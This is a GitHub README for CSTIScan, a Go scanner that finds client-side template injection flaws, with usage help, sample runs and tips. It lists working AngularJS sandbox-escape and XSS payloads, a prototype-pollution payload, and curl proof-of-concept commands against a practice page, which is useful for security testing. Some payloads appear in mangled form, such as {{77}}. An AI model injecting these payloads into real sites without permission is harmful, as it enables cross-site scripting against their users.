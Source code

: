 <p align="center">
   <img src="bet.png" width="100" height="100">
</p>

# 🕵️‍♂️ CSTIScan: Client-Side Template Injection (SISTEE) Scanner

CSTIScan is a powerful tool designed to identify and exploit potential Client-Side Template Injection (CSTI) vulnerabilities in web applications. CSTI occurs when user input is incorrectly handled and inserted into client-side templates, potentially leading to cross-site scripting (XSS) and other security issues.

## 🚀 Features

- 🔍 Automated scanning of single or multiple URLs
- 🧪 Tests various CSTI payloads
- 📊 Detailed vulnerability reporting
- 🛠️ Proof of Concept (PoC) generation
- 📈 Progress bar for multiple URL scans
- 🎨 Colorized console output

## 📦 Installation

1. Ensure you have Go installed on your system.
2. Clone this repository:

```
git clone https://github.com/queencitycyber/SISTEE
cd SISTEE
go mod init csti.go
go mod tidy
go build .
```


## 🔧 Usage

Public Firing Range: 

* AngularJS: [https://jsfiddle.net/2zs2yv7o/](https://jsfiddle.net/2zs2yv7o/)

* VueJS: [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)


### Help Menu

```
NAME:
   cstiscan - Scan for Client-Side Template Injection vulnerabilities

USAGE:
   cstiscan [global options] command [command options]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --url value, -u value   Single URL to test
   --file value, -f value  File containing URLs to test
   --poc                   Output PoC details (default: false)
   --proof                 Output proof of vulnerable code (default: false)
   --help, -h              show help
```

### Example Run - Provide Proof

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --proof
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
Proof:
Payload reflection: {{7*7}}
Payload reflection: <%= 7*7 %>
Payload reflection: {{constructor.constructor('alert(1)')()}}
Payload reflection: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
Payload reflection: {{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'}}
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Example Run - Provide PoC

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --poc
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
PoC:
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B7*7%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=${7*7}'
curl 'https://jsfiddle.net/2zs2yv7o/?test=<%= 7*7 %>'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7Bconstructor.constructor('alert(1)')()%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7BtoString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'%7D%7D'
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Single URL Scan
```
./cstiscan --url https://example.com
```

### Multiple URL Scan
```
./cstiscan --file urls.txt
```

### Include PoC Commands
```
./cstiscan --url https://example.com --poc
```

### Include Proof of Vulnerable Code
```
./cstiscan --url https://example.com --proof
```

## 🔬 Methodology

### 1. Automated Scanning
The tool performs the following steps:
- Fetches the target URL(s)
- Analyzes the HTML content for potential CSTI vectors
- Tests various CSTI payloads
- Generates a detailed report of findings

### 2. Manual Verification
For each potentially vulnerable URL:
1. Open the URL in a browser
2. Open the browser's developer console
3. Inject test payloads into user input fields or URL parameters
4. Check for unexpected behavior or script execution

### 3. CSTI Payload Testing
The tool tests various payloads, including:

```
{{77}}
${77}
<%= 7*7 %>
{{constructor.constructor('alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```

### 4. Identifying Vulnerable Templates
The scanner looks for patterns that might indicate template usage, such as:
- `{{ }}` (Mustache, Handlebars, AngularJS, Vue.js)
- `${ }` (ES6 template literals, some frameworks)
- `<%= %>` (EJS, Underscore.js)

## 📊 Results

- The tool outputs a table with vulnerable URLs, details, and optional PoC commands
- For manual testing, document:
  - The URL tested
  - The payload used
  - The observed behavior (e.g., unexpected script execution, template evaluation)
- Results are saved in JSON format for further analysis

## 💡 Tips & Tricks

1. **URL Parameter Testing**: Try injecting payloads via URL parameters:

```
https://target.com/page?param={{7*7}}
```

2. **Combine with XSS**: CSTI can often lead to XSS, test with alert functions:

```
{{constructor.constructor('alert("CSTI vulnerability")')()}}
```

3. **Check for Different Template Engines**: Different frameworks use different syntax, test various formats:

* `{{ }}` for Mustache, Handlebars, AngularJS, Vue.js
* `${ }` for ES6 template literals
* `<%= %>` for EJS, Underscore.js

4. **Prototype Pollution via CSTI**: Some payloads can lead to prototype pollution:

```
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```
